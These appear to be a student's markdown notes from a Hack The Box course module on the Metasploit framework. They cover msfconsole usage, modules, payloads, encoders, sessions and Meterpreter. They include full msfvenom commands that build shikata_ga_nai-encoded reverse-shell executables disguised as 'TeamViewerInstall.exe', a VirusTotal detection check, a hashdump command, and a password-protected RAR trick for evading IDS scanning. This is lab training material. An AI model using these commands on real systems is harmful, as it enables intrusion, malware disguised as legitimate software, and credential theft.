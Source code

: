 ## Introduction to Metasploit : 

![[MetasploitProject.png]]

Metasploit Pro : 
- Task Chains
- Social Engineering
- Vulnerability Validations
- GUI
- Quick Start Wizards
- Nexpose Integration

![[Uses.png]]

## Introduction to MSFconsole : 

```shell
msfconsole

msfconsole -q (without the banner)
```

![[S04_SS03.png]]

## Modules : 

Module syntax :
```shell-session
<No.> <type>/<os>/<service>/<name>
```

![[TypeModule.png]]

Example search :
```shell-session
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

## Targets : 

Get information about an exploit :
```shell
msf6 exploit(windows/browser/ie_execcommand_uaf) > info
```

Show vulnerable machines (then set target to select) :
```shell-session
msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets
```

## Payloads :

![[RHOST.png]]
![[LHOST.png]]

Common windows payload : 
![[Windows common payload.png]]

## Encoders : 

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes.

```shell
NolanCarougeHTB@htb[/htb]$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai
```

Without encoding : 
```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```

With encoding : 
```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

Show available encodings :
```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders
```


54/69 : 
```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```

More iterations, 52/69 : 
```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

To directly test if the payloads are identified :
```shell
NolanCarougeHTB@htb[/htb]$ msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

## Databases : 

It is possible to use databases integrated into MSF.

## Plugins : 

List the available plugins :
```shell
NolanCarougeHTB@htb[/htb]$ ls /usr/share/metasploit-framework/plugins
```

Load a plugin :
```shell
msf6 > load nessus
```

## Sessions : 

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions

msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
```

```shell-session
msf6 exploit(multi/handler) > exploit -j
```

Once a session is open, bg to put it in the background. Next we look for a sudo exploit. We will use it with the corresponding session.

## Meterpreter : 

```shell
meterpreter > help
meterpreter > hashdump
```

## Firewall and IDS/IPS Evasion : 

```shell
NolanCarougeHTB@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
``` 

```shell
NolanCarougeHTB@htb[/htb]$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
NolanCarougeHTB@htb[/htb]$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
NolanCarougeHTB@htb[/htb]$ rar a ~/test.rar -p ~/test.js
```

```shell-session
NolanCarougeHTB@htb[/htb]$ mv test.rar test
NolanCarougeHTB@htb[/htb]$ rar a test2.rar -p test
NolanCarougeHTB@htb[/htb]$ mv test2.rar test2
```